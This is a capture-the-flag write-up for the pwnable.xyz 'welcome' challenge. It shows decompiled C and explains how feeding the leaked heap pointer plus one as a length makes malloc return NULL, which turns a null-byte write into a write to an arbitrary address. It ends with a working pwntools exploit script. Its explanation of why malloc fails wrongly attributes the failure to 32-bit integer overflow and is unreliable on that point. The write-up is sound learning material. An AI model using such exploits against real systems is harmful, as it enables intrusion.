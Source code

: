 ```yaml
---
description: malloc failing by integer overflow causing NULL
---
```


# welcome

***

## Analysis

We are given a binary with the following protections

```
❯ checksec challenge
 
[*] '/home/mfkrypt/pwn-learning-notes/pwnablexyz/welcome/challenge'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
```

We can observe all protections are enabled. Running the binary itself reveals a leak

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Let us now check the decompiled source

```c
undefined8 main(void)

{
  long *malloc_ret;
  void *buffer;
  long in_FS_OFFSET;
  size_t length;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  setup();

  puts("Welcome.");
  malloc_ret = (long *)malloc(262144);
  *malloc_ret = 1;  // Stores the integer 1 at the beginning of that allocated memory

  __printf_chk(1,"Leak: %p\n",malloc_ret);
  __printf_chk(1,"Length of your message: ");

  length = 0;
  __isoc99_scanf(&DAT_00100c50,&length);
  buffer = malloc(length);
  __printf_chk(1,"Enter your message: ");

  read(0,buffer,length);
  *(undefined *)((long)buffer + (length - 1)) = 0;

  write(1,buffer,length);
  if (*malloc_ret == 0) {
    system("cat /flag");
  }

  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  
  return 0;
}
```

We can see over here:

```c
malloc_ret = (long *)malloc(262144);
*malloc_ret = 1;
```

`malloc` returns a pointer, `malloc_ret` and assigned an integer value of `1` . It will probably look like this in memory:

```
0x7fad99950010:  0x0000000000000001
```

In this line:

```c
 __printf_chk(1,"Leak: %p\n",malloc_ret);
```

It leaks the heap address of the returned `malloc` pointer. Other than that,&#x20;

```c
__isoc99_scanf(&DAT_00100c50,&length);
buffer = malloc(length);

read(0,buffer,length);
```

Allocates the `length` we input which is a `long integer` type to allocate memory to a buffer and then reads up the buffer up to the `length` .

And the part below writes a null byte at the last byte of the input buffer

```c
*(undefined *)((long)buffer + (length - 1)) = 0;
write(1,buffer,length);
```

if the returned `malloc` integer value is `0` , we get the flag

```c
if (*malloc_ret == 0) {
    system("cat /flag");
  }
```

***

## Plan

Looking at the man page of `malloc`

<figure><img src="../../.gitbook/assets/image (868).png" alt=""><figcaption></figcaption></figure>

On error, `malloc` returns NULL . Okay, soooo how does this affect what we are going to do? Well, since the program leaks an address, we can take advantage of that address and use it as a size to fail `malloc` when it allocates memory.

The leaked heap pointer isn’t used as a pointer in the logic — it’s used as a large number to trigger `malloc` failure.

Why does it error or fail? For example, the leaked pointer address is `0x7fb304b31010` the equivalent in decimal is `140406854717456` . That is 14TB of memory which is way too huge since the max value for `unsigned int` is `4,294,967,295` .

<figure><img src="../../.gitbook/assets/image (870).png" alt=""><figcaption></figcaption></figure>

On a 32-bit `unsigned int`, very large values like the leaked address, `0x7fb304b31010` will overflow and may result in a small or even negative signed `int` when passed to `malloc`, which causes it to fail and return `NULL`

After overflowing the pointer of `malloc` In this line:

```c
*(undefined *)((long)buffer + (length - 1)) = 0;
```

the `buffer` turns to `NULL` after the error:

```c
NULL + length - 1 = length - 1
```

That `length - 1` ends up being **exactly** the leaked address `malloc_ret` . So to make up for this we need to input the `leak_address + 1` to cancel the `length - 1` . But we need to convert them into a `str` type because `scanf` here expects a string input of the `unsigned long int` .

## Exploit

We can manipulate `length` such that `malloc(length)` returns `NULL`, and therefore `buffer = NULL`. Then:

```c
*(buffer + length - 1) = 0;
// becomes:

*(NULL + leaked_address) = 0;
// which writes a zero byte to *malloc_ret
```

Here is the script:

```python
from pwn import *

elf = context.binary = ELF('./challenge', checksec=False)
libc = elf.libc

gs = '''
c
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)


def exploit():
    io = start()

    io.recvuntil(b'Leak: ')
    leak = int(io.recvline(), 16)

    log.success(f"Leaked malloc address: {hex(leak)}")

    io.sendlineafter(b'Length of your message: ', str(leak + 1))
    io.sendlineafter(b'Enter your message: ', "cool")

    io.interactive()


if __name__ == "__main__":
    exploit()
```
